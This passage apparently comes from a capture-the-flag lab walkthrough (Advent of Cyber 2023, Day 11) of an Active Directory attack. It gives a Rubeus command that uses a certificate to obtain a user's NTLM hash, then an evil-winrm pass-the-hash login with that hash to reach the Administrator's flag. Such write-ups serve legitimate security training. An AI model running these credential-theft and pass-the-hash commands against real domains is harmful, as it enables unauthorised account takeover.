    The resulting command we can use to get the NTLM hash with `Rubeus`.

   ```cmd
    .\Rubeus.exe asktgt /user:vansprinkles /certificate:<base64 encoded certificate> /password:"AG1sF7Nd1nAwZ2hZ" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
   ```

   ![Rubeus](Pictures/Advent_Of_Cyber_2023_D11_Rubeus.png)

   ><details><summary>Click for answer</summary></details>

2. What is the content of flag.txt on the Administrator Desktop?

   With this hash we can perform a pass-the-hash attack to log in as the compromised user using `Evil-Winrm`.

   ```cmd
   evil-winrm -i 10.10.163.140 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
   ```

   ![Winrm Error](Pictures/Advent_Of_Cyber_2023_D11_Winrm_Error.png)
